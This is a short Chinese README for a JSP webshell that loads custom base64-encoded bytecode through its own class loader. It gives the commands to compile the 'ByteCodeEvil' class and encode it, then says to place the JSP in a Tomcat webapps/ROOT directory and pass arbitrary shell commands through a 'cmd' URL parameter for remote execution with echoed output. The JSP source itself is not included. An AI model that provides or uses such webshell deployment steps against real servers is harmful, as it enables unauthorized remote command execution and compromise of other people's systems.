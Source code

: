 ### 自定义类加载器的JSP WebShell

生成字节码：
```
javac ByteCodeEvil.class
java ByteCodeEvil
cat ByteCodeEvil.class|base64
```

使用：
```
ps:若要修改字节码逻辑，修改后按照上面编译字节码的方式得到base64字节码替换jsp文件中的base64字节码

1.把jsp文件放到能被解析的服务器目录，例：tomcat的webapps/ROOT

2.在浏览器访问2.jsp，并使用参数cmd传入需要远程执行的命令，例：http://127.0.0.1:8080/2.jsp?cmd=whoami

3.服务器将会执行相应的shell命令，最后回显
```